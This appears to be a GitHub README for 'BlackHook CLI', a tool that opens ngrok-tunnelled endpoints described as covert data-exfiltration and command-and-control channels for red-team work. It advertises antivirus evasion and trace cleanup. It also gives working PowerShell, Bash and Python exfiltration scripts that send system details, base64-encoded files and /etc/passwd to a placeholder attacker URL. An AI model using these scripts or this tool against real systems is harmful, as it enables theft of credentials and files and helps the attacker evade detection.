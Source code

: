 # BlackHook CLI

A covert command-line tool for establishing secure data exfiltration channels and webhook endpoints during penetration testing and red team operations.

![Security](https://img.shields.io/badge/security-research-red.svg)
![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Stealth](https://img.shields.io/badge/stealth-high-darkgreen.svg)

## 🎯 Overview

BlackHook-CLI is similar to webhook.site but in the form of cli and can be run locally to carry out a variety of data exfiltration attacks

# Images Side by Side

| UI Screenshot | Requests View |
|:-------------:|:-------------:|
| <img src="images/ui.svg" alt="UI Screenshot" width="600"/> | <img src="images/requests.svg" alt="Requests View" width="600"/> |


## 🔥 Key Advantages

- 🥷 **AV Evasion**: Bypasses common antivirus detection through legitimate HTTP traffic patterns
- 🌐 **Dynamic Endpoints**: Creates ephemeral ngrok tunnels that don't appear in security feeds
- 🔒 **No External Dependencies**: Self-hosted solution avoiding third-party webhook services
- 📊 **Real-time Monitoring**: Live TUI for immediate data visibility during operations
- 🧹 **Clean Footprint**: Minimal system traces and easy cleanup
- 🎭 **Traffic Mimicry**: Requests appear as legitimate web traffic
- 💾 **Flexible Exfiltration**: Supports multiple data formats and encoding schemes

## 🚀 Tactical Use Cases

- **Data Exfiltration**: Extract sensitive files and credentials via HTTP POST
- **Command & Control**: Establish covert communication channels
- **Payload Delivery Confirmation**: Verify successful payload execution
- **Persistence Validation**: Test beacon callbacks and heartbeat mechanisms


## 📦 Installation

```bash
# Clone the repository
git clone https://github.com/yourusername/blackhook-cli.git
cd blackhook-cli

# Install dependencies
pip install -r requirements.txt

# Make executable
chmod +x blackhook_cli.py
```

## ⚡ Quick Deployment

### 1. Establish Covert Channel
```bash
python blackhook_cli.py start --port 8080
```
- Automatically generates ephemeral ngrok URL
- Launches real-time monitoring interface
- Ready for data reception immediately

### 2. Configure Target Payload
Use the generated URL in your payload scripts:
```bash
# Example exfiltration endpoint
https://abc123.ngrok.io/exfil
```

### 3. Monitor Incoming Data
Watch data arrive in real-time through the interactive TUI with full request details, headers, and payload content.

## 🎯 Operational Examples

### Data Exfiltration Scripts

**PowerShell (Windows)**
```powershell
# Exfiltrate system information
$data = @{
    hostname = $env:COMPUTERNAME
    user = $env:USERNAME
    domain = $env:USERDOMAIN
    processes = Get-Process | Select-Object Name | ConvertTo-Json
}
Invoke-RestMethod -Uri "https://your-ngrok-url.ngrok.io/sysinfo" -Method POST -Body ($data | ConvertTo-Json) -ContentType "application/json"
```

**Bash (Linux)**
```bash
#!/bin/bash
# Covert file exfiltration
curl -X POST https://your-ngrok-url.ngrok.io/files \
  -H "Content-Type: application/json" \
  -d "{\"filename\":\"$(basename $1)\",\"content\":\"$(base64 -w 0 $1)\"}"
```

**Python (Cross-platform)**
```python
import requests
import base64
import os

def exfiltrate_file(filepath, endpoint):
    with open(filepath, 'rb') as f:
        content = base64.b64encode(f.read()).decode()
    
    data = {
        'filename': os.path.basename(filepath),
        'size': os.path.getsize(filepath),
        'content': content
    }
    
    requests.post(f"{endpoint}/upload", json=data)

# Usage
exfiltrate_file("/etc/passwd", "https://your-ngrok-url.ngrok.io")
```

## 🔧 Operational Commands

| Command | Purpose | OPSEC Level |
|---------|---------|-------------|
| `start` | Deploy covert endpoint |
| `status` | Check operational status |
| `requests` | Review captured intelligence |
| `show <id>` | Analyze specific payload |
| `export` | Extract operation data |
| `kill` | Terminate and cleanup |
| `clear` | Purge operation traces |

## 🎮 TUI Operational Controls

| Key | Function | Description |
|-----|----------|-------------|
| `↑↓` | Navigate | Browse captured payloads |
| `Enter` | Inspect | Deep dive into payload details |
| `c` | Clean | Emergency data wipe |
| `e` | Extract | Quick data export |
| `k` | Kill | Terminate operations |
| `q` | Quit | Exit interface |

## 🤝 Contributing

Security researchers and penetration testers are welcome to contribute:

---
#### Inspired from Webhook.site
